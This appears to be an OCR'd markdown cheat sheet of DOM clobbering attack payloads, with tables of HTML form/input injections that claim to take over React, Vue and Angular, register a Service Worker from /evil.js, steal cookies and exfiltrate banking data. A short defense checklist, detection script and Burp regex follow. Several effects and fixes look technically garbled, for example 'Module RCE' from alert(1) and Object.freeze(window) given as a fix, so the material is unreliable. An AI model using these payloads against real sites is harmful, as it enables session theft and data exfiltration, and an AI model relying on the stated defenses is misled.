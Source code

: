 | Framework | **Triple Payload** | Effect |
|-----------|-------------------|---------|
| **React** | `<form id=ReactDOM><input id=render name=toString value=alert(1)>` | Component takeover |
| **Vue** | `<form id=Vue><input id=compile name=template value="<img onerror=1>">` | Template injection |
| **Angular** | `<form id=ngModule><input id=bootstrap name=toString value=alert(1)>` | Module RCE |
| **Service Worker** | `<form id=navigator><input id=serviceWorker name=register value=/evil.js>` | Persistent XSS |

**QUADRUPLE CHAIN** (2025 @albinowax):
```html
<form id=location><input id=href name=assign value=javascript:fetch.url>
<form id=fetch><input id=url name=toString value=/steal>
```
**Result**: **Exfil + redirect** | **62 chars**

---

## 🛡️ DEFENSE ARMOR (Dev Checklist)

| Stage | Attack | **Fix** | Code | Coverage |
|-------|--------|---------|------|----------|
| **1** | `id=location` | Freeze global | `Object.freeze(window)` | 98% |
| **2** | `id=href` | Property seal | `Object.seal(location)` | 95% |
| **3** | `name=assign` | Disable methods | `location.assign = null` | 97% |
| **All** | Form clobber | Namespace | `const loc = document.location` | 100% |

**Detection Script**:
```javascript
// Add to head
if (window.location.toString().includes('FormElement')) {
  throw new Error('Triple Clobber Detected!');
}
```

**Burp Rule**:
```regex
<form id=location.*input.*(href\|assign)
```

---

## 📋 ULTIMATE CHEAT SHEET

| Goal | **Triple Payload** | Command |
|------|-------------------|---------|
| **Quick XSS** | `#<form id=location><input id=href name=assign value=javascript:alert(1)>` | `curl target/#PAYLOAD` |
| **Cookie Steal** | `#<form id=document><input id=cookie name=value value=/steal>` | Session hijack |
| **React RCE** | `#<form id=ReactDOM><input id=render name=toString value=alert(1)>` | Component exec |
| **Banking** | `#<form id=fetch><input id=url name=toString value=/api/balance>` | Data exfil |
| **Universal** | `#<form id=eval><input id=toString name=call value=alert(1)>` | Eval bypass |

---